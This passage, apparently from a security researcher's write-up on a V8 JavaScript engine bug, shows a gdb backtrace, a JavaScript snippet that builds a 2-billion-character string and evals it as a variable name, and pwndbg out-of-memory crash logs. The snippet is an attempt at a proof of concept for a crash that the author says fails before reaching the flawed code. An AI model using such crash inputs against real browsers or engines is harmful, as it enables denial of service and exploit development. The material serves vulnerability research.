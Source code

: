 #10 0x00005555555c9292 in main (argc=2, argv=0x7fffffffe548) at ../../src/d8.cc:3535
#11 0x00007ffff4aa62e1 in __libc_start_main (main=0x5555555c9270 <main(int, char**)>, argc=2, argv=0x7fffffffe548, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffe538) at ../csu/libc-start.c:291
#12 0x000055555559402a in _start ()
```


## Method 2:
```js

function repeatStringNumTimes(string, times) {
  var repeatedString = "";
  while (times > 0) {
    repeatedString += string;
    times--;
  }
  return repeatedString;
}
var len_str = 2147483648;
var name_function = repeatStringNumTimes("\u0151",len_str);
console.log(name_function.length);
eval("var "+name_function+" = new Function('return');");
```
This approach will crash the engine before reaching the vulnerable code because of addition of string is too big.

So after learning new stuff from "Method 1" I decieded to try to allocate string of length ```2146435073```

During this experiment it crashed like this:

### Backtrace 
```
$2517 = 66060288
Length is 65273856
$2519 = 64
[.....]
$2588 = 66060288
$2589 = 67108864
pwndbg>
<--- Last few GCs --->

[23783:0x5555556113b0]   419195 ms: Mark-sweep 2036.3 (2039.3) -> 2036.3 (2039.3) MB, 154.7 / 0.0 ms  (average mu = 0.951, current mu = 0.001) last resort GC in old space requested
[23783:0x5555556113b0]   419364 ms: Mark-sweep 2036.3 (2039.3) -> 2036.3 (2039.3) MB, 169.6 / 0.1 ms  (average mu = 0.900, current mu = 0.000) last resort GC in old space requested


<--- JS stacktrace --->

==== JS stack trace =========================================

    0: ExitFrame [pc: 0x7ffff79e678d]
    1: StubFrame [pc: 0x7ffff7b3bbac]
Security context: 0x3c1eaab973b1 <JSObject>
    2: /* anonymous */ [0x3c1eaab9bd11] [test.js:4] [bytecode=0x3c1eaab9bbd1 offset=141](this=0x1de80ad809f9 <JSGlobal Object>)
    3: InternalFrame [pc: 0x7ffff76d8680]
    4: EntryFrame [pc: 0x7ffff76d840d]

==== Details ================================================

[0]: ExitFrame [pc: 0x7ffff79e678d]
[1]: StubFram...
```